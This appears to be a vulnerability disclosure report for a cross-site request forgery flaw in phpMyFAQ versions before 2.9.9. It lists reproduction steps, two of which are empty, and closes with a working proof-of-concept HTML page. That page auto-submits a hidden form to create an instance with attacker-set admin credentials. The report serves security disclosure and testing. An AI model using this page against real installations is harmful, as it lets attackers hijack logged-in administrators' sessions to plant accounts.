


# Vulnerability Type

Cross-Site Request Forgery

# Description

In phpMyFaq before 2.9.9, there is CSRF in admin/ajax.config.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpMyFAQ/
 - Version: 2.9.8
 - Tested on: Windows 10

 ## Exploit Description

phpMyFaq is vulnerable to a Cross-Site Request Forgery (CSRF) attack that allows an attacker to create new instances without user consent.

 ## Steps to Reproduce

    1. Save the following code as `poc.html`.
     2. Log in phpmyfaq, and open the file in the same browser.
     3. The following outcome will occur:
     4. Begin: 



5. After: 



 ## Proof Of Concept

```
<html>
  <body>
    <form action="http://phpmyfaq/admin/index.php" method="GET">
      <input type="hidden" name="action" value="ajax">
      <input type="hidden" name="ajax" value="config">
      <input type="hidden" name="ajaxaction" value="add_instance">
      <input type="hidden" name="url" value="malicious">
      <input type="hidden" name="instance" value="malicious_instance">
      <input type="hidden" name="comment" value="CSRF Test">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="admin" value="attacker">
      <input type="hidden" name="password" value="password123">
      <input type="submit" value="Submit request">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

